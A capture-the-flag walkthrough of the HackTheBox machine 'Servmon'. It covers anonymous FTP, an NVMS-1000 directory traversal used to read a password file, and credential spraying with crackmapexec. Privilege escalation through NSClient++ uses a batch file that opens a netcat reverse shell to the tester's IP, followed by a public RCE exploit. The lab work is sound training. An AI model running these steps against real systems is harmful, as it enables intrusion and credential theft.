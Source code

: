 # Servmon

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.77
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 01:44 EDT
Nmap scan report for 10.129.227.77
Host is up (0.0077s latency).
Not shown: 65518 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5666/tcp  open  nrpe
6063/tcp  open  x11
6699/tcp  open  napster
8443/tcp  open  https-alt
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

Loads of ports. This is an easy and old machine, so it shouldn't be too complex.

### Anonymous FTP

When I see FTP, the first thing I check for is anomymous logins. This works for this machine

```
$ ftp 10.129.227.77      
Connected to 10.129.227.77.
220 Microsoft FTP Service
Name (10.129.227.77:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49677|)
125 Data connection already open; Transfer starting.
02-28-22  07:35PM       <DIR>          Users
```

We can find 2 files, one `Confidential.txt` and a `Notes to do.txt`. Reading the confidential one highlights that there is a password file somewhere:

{% code overflow="wrap" %}
```
$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```
{% endcode %}

Great!&#x20;

### LFI

On port 80 and port 8443, there are HTTP and HTTPS sites presents respectively. Looking at port 80, we see this is running NVMS-1000:

<figure><img src="../../../.gitbook/assets/image (1740).png" alt=""><figcaption></figcaption></figure>

There are public exploits for these:

```
$ searchsploit nvms                     
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
NVMS 1000 - Directory Traversal                             | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Modific | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow          | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                         | hardware/webapps/48311.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Following the PoC, we can see it works:

<figure><img src="../../../.gitbook/assets/image (637).png" alt=""><figcaption></figcaption></figure>

Great! Now, we can read the `password.txt` file that we found hints of earlier. Here are the passwords retrieved:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

With this, we can run a `crackmapexec` to brute force the possible passwords.&#x20;

```
./cme smb 10.129.227.77 -u /home/kali/htb/servmon/users -p /home/kali/htb/servmon/passwords
SMB         10.129.227.77   445    SERVMON          [*] Windows 10.0 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk
```

This would find that the credentials of `nadine:L1k3B1gBut7s@W0rk` is the right one. With these credentials, we can SSH into the machine as the `nmap` scan found earlier showed port 22 was open.

<figure><img src="../../../.gitbook/assets/image (529).png" alt=""><figcaption></figcaption></figure>

Then grab the user flag.

## Privilege Escalation

### NSClient++ Privilege Escalation

Earlier, I mentioned that port 8443 was running a HTTPS site and we have not enumerated it yet. This port had NSClient++ running on it:

<figure><img src="../../../.gitbook/assets/image (1983).png" alt=""><figcaption></figcaption></figure>

None of the functions work. Searching for public exploits works however:

```
$ searchsploit nsclient                     
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution   | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation                  | windows/local/46802.txt
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The Privilege Escalation is the one I need now. Following the PoC, we first need to grab the administrator password:

```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

Then we need to download `nc.exe` to the machine and a `.bat` file that executes a reverse shell

```batch
@echo off
c:\Windows\Tasks\nc.exe 10.10.14.2 4444 -e cmd.exe
```

Then we need to login, but for some reason the application is blocking me. When we check the `nsclient.ini` configuration file, we see that it only allows `localhost` to access the services:

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 
ï»¿# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

So we need to do some port forwarding using `ssh`.&#x20;

```
ssh nadine@10.129.227.77 -L 8443:127.0.0.1:8443
```

Then we can access the site and continue.&#x20;

<figure><img src="../../../.gitbook/assets/image (1046).png" alt=""><figcaption></figcaption></figure>

Login using the administrator password we found earlier. There are automated PoCs for this:

{% embed url="https://packetstormsecurity.com/files/157306/NSClient-0.5.2.35-Authenticated-Remote-Code-Execution.html" %}

We can run it like so after downloading the relevant files onto the machine:

```bash
python3 pe.py -t 127.0.0.1 -P 8443 -p 'ew2x6SsGTxjRwXOT' -c "c:\Windows\Tasks\evil.bat"
```

<figure><img src="../../../.gitbook/assets/image (3624).png" alt=""><figcaption></figcaption></figure>

Rooted!

